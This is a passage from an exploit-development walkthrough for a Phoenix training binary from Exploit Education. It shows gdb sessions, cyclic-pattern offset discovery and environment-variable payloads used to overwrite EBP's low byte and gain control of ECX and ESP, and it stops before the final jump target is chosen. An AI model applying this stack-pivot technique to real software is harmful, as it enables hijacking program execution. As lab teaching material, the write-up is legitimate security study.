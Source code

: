 We can see that before leaving main, EBP is set to 0xffffd542. This means we can control the LSB by setting the last byte of our payload. Great!

Next, we need to find a suitable byte. This means having user-controlled data at EBP-0x4. To do that, let's just look at the surroundings of what we currently have:

```bash
(gdb) x (0xffffd544-0x4)
0xffffd540:     0x41414141
```

This looks promising! Setting the byte to 0x44 lands us at some user-controlled value. Now, we need to find the offset of this value. Let's do this by using a unique pattern generated by https://github.com/Svenito/exploit-pattern.

```bash
~/exploit-pattern [master] » python pattern.py 126
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1

user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1" + "B"'`

(gdb) x/4c 0xffffd540
0xffffd540:     48 '0'  65 'A'  101 'e' 49 '1'

~/exploit-pattern [master] » python pattern.py 0Ae1
Pattern 0Ae1 first occurrence at position 122 in pattern.
```

This tells us, that the user-controlled word is at offset 122 in our payload. Let's confirm this by writing something specific there:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ export ExploitEducation=`python -c 'print "A" * 122 + "CCCC" + "B"'`

(gdb) x/4c 0xffffd540
0xffffd540:     67 'C'  67 'C'  67 'C'  67 'C'
```

This works. To recap, now we can control ESP because ESP is set to ECX-0x4 and ECX is set to whatever is stored at EBP-0x4. The value that we store there should therefore point to our buffer. Then we can provide a new value for EIP and the game is over. Our payload currently looks like this:

`[A*122][CCCC][0x44]`. This should lead to a ECX value of 0x43434343 (CCCC). Let's confirm:

```bash
(gdb) info reg
eax            0x0                 0
ecx            0x43434343          1128481603
```

Now all that is left is find a good address to jump to. Ideally some area of memory that we control via the environment variable.
Let's check were our buffer is before it is printed out in `main`:
